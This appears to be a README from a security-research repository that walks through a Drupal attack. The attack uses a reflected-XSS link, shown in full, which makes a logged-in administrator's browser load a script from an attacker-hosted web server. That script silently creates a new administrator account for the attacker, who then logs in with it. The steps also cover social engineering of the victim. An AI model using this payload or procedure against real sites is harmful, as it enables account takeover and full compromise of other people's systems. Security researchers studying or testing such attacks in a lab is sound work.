

# [Acc] Create New Admin User

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [setup exploit] change payload variable values (`createAdminAccDrupal.js`)

    `newAccUser` - username of the user account to be created

    `newAccPass` - password of the user account to be created (**NOTE**: no password requirements)

    `drupalRoot` - path to Drupal installation on the target system (e.g. `"/path"`)

2. [setup exploit] setup web server (to serve the payload)

3. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.17/user/login

4. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.17/test/rxss.php?q=<script src=http://192.168.5.15/createAdminAccDrupal.js></script>
    ```

    * **NOTES**:
      * `192.168.5.17` - target Drupal site
      * `192.168.5.15` - web server hosting payload

5. [post exploit] attacker logs into target Drupal site using specified credentials

    http://192.168.5.17/user/login

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter


